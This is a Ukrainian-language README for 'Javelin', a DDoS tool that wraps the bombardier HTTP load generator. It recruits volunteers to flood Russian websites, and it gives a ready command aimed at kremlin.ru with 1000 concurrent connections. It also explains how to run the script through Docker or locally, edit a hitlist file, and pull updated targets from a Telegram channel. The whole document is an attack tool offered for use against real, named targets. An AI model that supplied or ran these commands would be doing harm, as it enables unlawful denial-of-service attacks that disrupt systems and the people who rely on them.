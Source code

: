 # Javelin 🚀

🇺🇦 DDoS скрипт для координації боротьби з загарбницькими сайтами - використовує bash та [bombardier](https://github.com/codesenberg/bombardier) 🇺🇦

### [English manual](./README.md)
### [Инструкция на русском](./README_RU.md)

### Cпрощена інструкція - мануальне виконання скрипта

- Встановіть Docker - [Інструкції](https://docs.docker.com/get-docker/)
- `docker run -it alpine/bombardier -c 1000 -d 60s -l https://kremlin.ru`
- Остання частина команди це сайт, слід обрати сайт з [останніх повідоплень чату](https://t.me/itarmyofukraine2022)  

### Автоматичний скрипт

Скрипт виконує цю команду та автоматично підставляє цілі зі списку. Також він автоматично завантажує оновлення списку цілей, тобто вам не доведеться оновлювати список вручну.

#### Цілі

Найкраще слідкуйте за оновленими цілями [в цьому офіційному каналі](https://t.me/itarmyofukraine2022)  
Відредагуйте список у файлі [./hitlist.sh](/hitlist.sh)

#### Скрипт

- Зкачайте код виконавши цю команду в терміналі:  
   `git clone https://github.com/v1adko/javelin.git` або [зкачайте zip](https://github.com/v1adko/javelin/archive/refs/heads/master.zip) якщо клонування займає довго
- Перейдіть до папки з кодом - `cd ./javelin`
- (опціонально) Оновіть [цілі](#цілі)

#### Запуск в Docker контейнері
   
*NOTE*: це може зайняти значно довше часу та трафіку, тому якщо ви більш технічно досвідчені спробуйте [встановити бінарники прямо на вашу хост систему](#локальний-запуск)

- Встановіть Docker - [Інструкції](https://docs.docker.com/get-docker/)
- `docker-compose up --build` (на деяких системах compose не йде разом з docker)  
   **або**
- `docker build -t javelin .`
- `docker run javelin`

#### Локальний запуск

- Встановіть Go - [інструкції](https://go.dev/doc/install)
- Встановіть bombardier [зкачавши бінарний файл](https://github.com/codesenberg/bombardier/releases) відповідний до вашої системи
- Запустіть команду `./javelin-local.sh`

### Усе

Зараз можете залишити виконуватись программу на деякий час, можете [моніторити чат](https://t.me/itarmyofukraine2022) задля новин та інших способів допомогти.

Дякую за боротьбу! Україна переможе! 💪 🇺🇦
